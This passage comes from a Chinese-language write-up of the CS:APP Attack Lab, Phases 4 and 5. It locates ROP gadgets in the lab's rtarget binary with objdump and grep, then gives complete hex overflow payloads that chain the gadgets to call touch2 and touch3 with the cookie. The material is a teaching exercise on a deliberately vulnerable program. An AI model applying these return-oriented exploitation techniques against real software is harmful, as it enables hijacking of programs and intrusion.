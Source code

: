
换一种思路，我们肯定要把栈上的内容存入寄存器中，最简单的方法肯定还是直接pop，而handout文档也说可以用两个gadget通过。因此我们可以找一个中间桥梁，找到一个存在`pop %xxx`形式的寄存器，再通过mov指令存到%rdi中，那么再用一下`grep`可以找到%rax符合我们需求的片段：

```assembly
00000000004018f2 <getval_128>:
  4018f2:       b8 58 c3 9d 21          mov    $0x219dc358,%eax
  4018f7:       c3                      ret
00000000004018de <getval_322>:
  4018de:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
  4018e3:       c3                      ret
```

---

于是我们的注入代码为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
f3 18 40 00 00 00 00 00
60 21 aa 67 00 00 00 00
df 18 40 00 00 00 00 00
6f 17 40 00 00 00 00 00
```

成功通过

## Phase 5

这一关的目标是用ROP复现Phase 3，思路是一样的，其中唯一需要额外想到的就是相对%rsp的偏移量怎么得到，设计者非常贴心的给我们了一个很特别的函数：add_xy。这个函数可以用来进行偏移量运算，两个参数分别是%rdi和%rsi，前者存的是%rsp的值，后者存的是我们想要的偏移量，可以用pop实现。而中间的转移则需要借助其他寄存器来搭桥，其中%rsp的值必须用movq来转移，偏移量可以用movq和movl。这一过程只需要耐心即可，可以使用这一命令：

```bash
objdump -d rtarget | grep -A300 '<start_farm>' | grep -C1 '89 ce'
```

当然仅供参考，不一定是最好的

---
经过尝试后，答案如下：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
69 19 40 00 00 00 00 00 /* movq %rsp, %rax */
df 18 40 00 00 00 00 00 /* movq %rax, %rdi */
f3 18 40 00 00 00 00 00 /* popq %rax */
48 00 00 00 00 00 00 00 /* offset of cookie */
19 19 40 00 00 00 00 00 /* movl %eax, %edx */
42 19 40 00 00 00 00 00 /* movl %edx, %ecx */
c6 19 40 00 00 00 00 00 /* movl %ecx, %esi */
0b 19 40 00 00 00 00 00 /* add_xy */
df 18 40 00 00 00 00 00 /* movq %rax, %rdi */
43 18 40 00 00 00 00 00 /* push <touch3> to the stack> */
36 37 61 61 32 31 36 30 00 /* cookie */
```
